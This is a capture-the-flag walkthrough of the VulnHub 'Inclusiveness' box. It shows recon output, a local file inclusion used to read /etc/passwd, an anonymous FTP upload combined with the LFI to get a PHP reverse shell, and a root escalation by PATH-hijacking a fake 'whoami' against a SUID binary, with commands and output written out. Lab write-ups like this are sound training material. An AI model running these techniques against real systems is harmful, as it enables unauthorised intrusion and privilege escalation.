

# Inclusiveness

## Summary

[Inclusiveness](https://www.vulnhub.com/entry/inclusiveness-1,422/) is an <mark style="color:green;">easy-rated</mark> box in which initial recon uncovers an FTP server with **anonymous login** enabled as well as a **writeable folder**. **Dirbusting** reveals multiple **robot-related directories**, all containing a message that leads to a [**LFI**](#user-content-fn-1)[^1] **vulnerability**. By combining the writable FTP directory and the LFI flaw, we achieve [**RCE**](#user-content-fn-2)[^2]. Further manual enumeration reveals an interesting **script**, which, through exploitation, allows us to **escalate privileges** and gain root access.

<table><thead><tr><th width="94" align="center">Step</th><th>Action</th><th width="186">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="center">1</td><td>Dirbusting</td><td><a href="broken-reference"><code>ffuf</code></a></td><td>Enumerated <a data-footnote-ref href="#user-content-fn-1">LFI</a></td></tr><tr><td align="center">2</td><td>Exploiting LFI</td><td>Burp Suite</td><td><a data-footnote-ref href="#user-content-fn-2">RCE</a></td></tr><tr><td align="center">3</td><td>System enumeration</td><td><a data-footnote-ref href="#user-content-fn-3">LotL</a></td><td>Root access</td></tr></tbody></table>

## Recon

```bash
$ sudo nmap -T4 --min-rate 10000 -open -p- -A inclusive

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.45.171
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```


```bash
$ whatweb http://inclusive

http://inclusive [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.239.14], Title[Apache2 Debian Default Page: It works]
```



```bash
$ ffuf -u http://inclusive/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -ic -c -ac -e .txt,.php

________________________________________________
manual              [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 70ms]
javascript          [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 23ms]
robots.txt          [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 29ms]
norobots.txt        [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 30ms]
robots-txt          [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 27ms]
robots-txt.txt      [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 28ms]
robots-txt.php      [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 28ms]
valid-robots.txt    [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 24ms]
mof-robots.txt      [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 30ms]
hellorobots.txt     [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 32ms]
internetrobots.txt  [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 27ms]
061221_robots.txt   [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 30ms]
ooh_robots.txt      [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 30ms]
killer-robots.txt   [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 31ms]
<SNIP>
```



```bash
$ echo "http://inclusive" | hakrawler -u
http://inclusive/manual
http://httpd.apache.org/docs/2.4/mod/mod_userdir.html
http://bugs.debian.org/cgi-bin/pkgreport.cgi?ordering=normal;archive=0;src=apache2;repeatmerged=0
http://inclusive/manual/da/index.html
http://inclusive/manual/de/index.html
http://inclusive/manual/en/index.html
http://inclusive/manual/es/index.html
http://inclusive/manual/fr/index.html
http://inclusive/manual/ja/index.html
http://inclusive/manual/ko/index.html
http://inclusive/manual/pt-br/index.html
http://inclusive/manual/tr/index.html
http://inclusive/manual/zh-cn/index.html
```


## Local.txt

During dirbusting a bunch of various `robots`-related files appeared, all having the same message (Figure 1).

<figure><figcaption><p>Figure 1: Reading the <code>robots.txt</code> file.</p></figcaption></figure>

Since we haven't anything else to try, we can try to figure out if this message is a hint for something. Apparently, there is [a way to impersonate a search engine](https://developers.google.com/search/docs/crawling-indexing/robots/robots_txt?hl=en#what-is-a-robots.txt-file) via tampering with the `User-Agent` header (Figure 2).

<figure><figcaption><p>The newly-discovered directory contains information about what a DNS Zone Transfer Attack is along with two language options (Figure 3).</p></figcaption></figure>

The newly-discovered directory contains information about what a DNS Zone Transfer Attack is along with two language options (Figure 3).

<figure><figcaption><p>Figure 3: Enumerating a potential LFI vulnerability.</p></figcaption></figure>

The `lang` parameter is vulnerable to LFI and we can read the `/etc/passwd` file through it, revealing the user `tom` (Figure 4). The `local.txt` flag can be found in his home directory.

<figure><figcaption><p>Figure 4: Exploiting a LFI vulnerability.</p></figcaption></figure>

## Proof.txt

We have a LFI vulnerability and we also know, from the earlier `nmap` scan, that we can write files to the FTP server (`vsftpd`) and that is contains just one directory (`/pub`).

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
```

According to some [forum posts](https://www.linuxquestions.org/questions/red-hat-31/direct-access-on-pub-directory-for-anonymous-user-on-ftp-server-4175504168/), the `/pub` FTP directory is located under `/var/ftp/pub`. We can test that by uploading a file on the FTP server and reading it via the LFI flaw (Figure 5).


```bash
$ cat test_file.txt
testing /var/ftp/pub/ directory

$ ftp anonymous@inclusive
Connected to inclusive.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd pub
250 Directory successfully changed.
ftp> put test_file.txt
local: test_file.txt remote: test_file.txt
229 Entering Extended Passive Mode (|||58638|)
150 Ok to send data.
100% |*******************************************************************************|    32      578.70 KiB/s    00:00 ETA
226 Transfer complete.
```


<figure><figcaption><p>Figure 5: Testing the <code>/var/ftp/pub</code> directory.</p></figcaption></figure>

Now we have confirmed the location of the ftp's `/pub` directory, we can combine the `anonymous` FTP login misconfiguration and the LFI vulnerability and upload a PHP reverse shell (Figure 6).

<figure><figcaption></figcaption></figure>

After [upgrading our shell](https://x7331.gitbook.io/boxes/tools/shells/upgrade#script-python), we can see a file called `rootshell` under `/home/tom/`.

```bash
www-data@inclusiveness:/$ ls -la /home/tom
total 104
<SNIP>
-rwxr-xr-x  1 tom  tom     33 Aug 31 20:15 local.txt
-rwsr-xr-x  1 root root 16976 Feb  8  2020 rootshell
-rw-r--r--  1 tom  tom    448 Feb  8  2020 rootshell.c

www-data@inclusiveness:/$ /home/tom/rootshell
checking if you are tom...
you are: www-data
```

It seems that the way to root the box is to find a way to impersonate the user `tom`. Uploading and running `linpeas.sh` doesn't really help us much. A closer inspection of the `rootshell` script, shows that is uses the output of `whoami` to check if the user running it is actually `tom`.


```bash
www-data@inclusiveness:/home/tom$ cat rootshell.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
        setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}
```


The binary of `whoami` is located under `/usr/bin/whoami`. We can't modify it, but we can create a new bash script with the same name under `/tmp`, export `/tmp` into the `PATH` environment variable, and then run `rootshell`.

```bash
www-data@inclusiveness:/tmp$ cat whoami
#!/bin/bash
echo tom
www-data@inclusiveness:/tmp$ chmod +x whoami
www-data@inclusiveness:/tmp$ ./whoami
tom
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ whoami
tom
www-data@inclusiveness:/tmp$ /home/tom/rootshell
checking if you are tom...
you are: tom

access granted.
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

[^1]: Local File Inclusion

[^2]: Remote Code Execution

[^3]: Living off the Land
